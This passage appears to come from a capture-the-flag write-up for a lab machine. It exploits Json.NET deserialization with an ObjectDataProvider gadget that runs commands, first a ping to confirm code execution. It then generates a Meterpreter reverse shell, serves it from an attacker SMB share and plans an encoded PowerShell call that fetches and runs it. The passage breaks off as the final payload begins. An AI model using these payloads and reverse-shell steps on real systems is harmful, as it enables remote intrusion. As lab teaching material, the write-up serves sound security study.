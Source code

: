 Now we'll modify the values above to try and ping back to us. We can then monitor it over ```tcpdump```. So our newly modified code looks like this:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c ping 10.10.15.154']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Now we can't obviously send this in it's entirety via the bearer token, we first have to ```base64``` encode it. Once we do that, we can put it into repeater.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-37.png" >}}

Next we'll start up ```tcpdump``` and listen for incoming icmp packets: 

```tcpdump -i tun0 icmp```

We send the payload and get a response!

{{< figure src="__GHOST_URL__/content/images/2019/11/image-38.png" >}}

So it looks like we have a valid RCE. Now we simply need to craft the correct payload. In this case we'll create a payload with ```msfpc```. Simply issuing ```msfpc windows tun0``` will generate us a staged reverse shell. Next we need to host our file somewhere. Since we are dealing with Windows we can spin up a quick SMB share to do this easily:

```impacket-smbserver share .```

{{< figure src="__GHOST_URL__/content/images/2019/11/image-39.png" >}}

Now that SMB is up and running and our payload located on the share. We need to start up the handler.

```
sudo msfconsole -q -r '/home/user/Documents/htb/json/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
```

So we have our payload hosted, we need to have it called somehow. We can create a ```Powershell``` script that will simply call the hosted exe on the target machine. [DarkOperator](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py) has a script for us to use in this case. So we create our .ps1 file:

```echo "\\\\10.10.15.154\\share\\payload.exe" > rc.ps1```

Then we encode it:

```./ps_encoder.py -s rc.ps1```

{{< figure src="__GHOST_URL__/content/images/2019/11/image-40.png" >}}

Now we can modify our payload from before to call Powershell and execute this command. We should note that you need to use the ```-enc``` flag to execute this due to escape characters. Our new payload should look like this:

```
{